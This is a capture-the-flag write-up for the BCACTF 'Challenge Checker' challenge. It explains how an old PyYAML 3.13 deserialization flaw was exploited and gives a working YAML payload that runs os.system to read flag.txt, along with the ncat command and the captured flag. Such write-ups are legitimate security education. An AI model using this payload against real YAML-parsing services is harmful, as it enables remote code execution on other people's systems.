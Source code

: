# Challenge Checker

#### Category : misc
#### Points : 150 points (70 solves)
#### Author : anli, Edward Feng

## Challenge
I made this challenge checker to automate away ed's job. Maybe you can get a flag if you give it enough delicious yams...

-   [chall.yaml](https://objects.bcactf.com/bcactf2/challenge-checker/chall.yaml)
-   [requirements.txt](https://objects.bcactf.com/bcactf2/challenge-checker/requirements.txt)
-   [verify.py](https://objects.bcactf.com/bcactf2/challenge-checker/verify.py)
-   `nc misc.bcactf.com 49153`

## Solution
Taking a look at `requirements.txt`, we find that it is using an old version of PyYAML(3.13).

When I searched for vulnerabilites, I found that PyYAML below 5.4 is vulnerable to arbitrary code execution due to the `full_load` method.

More Information :
[PyYAML Vulnerabilities](https://snyk.io/vuln/SNYK-PYTHON-PYYAML-590151)

I also found a writeup for the same at https://hackmd.io/@harrier/uiuctf20

#### Vulnerable Code :
The vulnerable function is the `check` function
```python
def check(raw_data) -> "Tuple[list[str], list[str]]":
    data = load(raw_data)
    if not isinstance(data, dict):
        raise Exception("Data must be a dictionary")
```

This function is being called after accepting `raw_data` from the user :
```python
if __name__ == "__main__":
    cprint("Paste in your chall.yaml file, then send an EOF:", "cyan", attrs=["bold"])
    sys.stdout.flush()
    try:
        raw_data = sys.stdin.read()
        errors, warnings = check(raw_data)
```

#### Getting flag.txt
I came up with the following payload to extract `flag.txt` :
```bash
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "import os; os.system('cat flag.txt')"
 ```
 
 Getting the flag :
 ```bash
$ cat payload|  ncat misc.bcactf.com 49153                                         
 
Paste in your chall.yaml file, then send an EOF or two empty lines:
bcactf{3d_r3ally_l1k35s_his_yams_c00ked_j5fc9g}
Fatal error: Data must be a dictionary

```

flag : `bcactf{3d_r3ally_l1k35s_his_yams_c00ked_j5fc9g}`

#### Note
I used ncat instead of nc because there was some problem while sending EOF with nc.
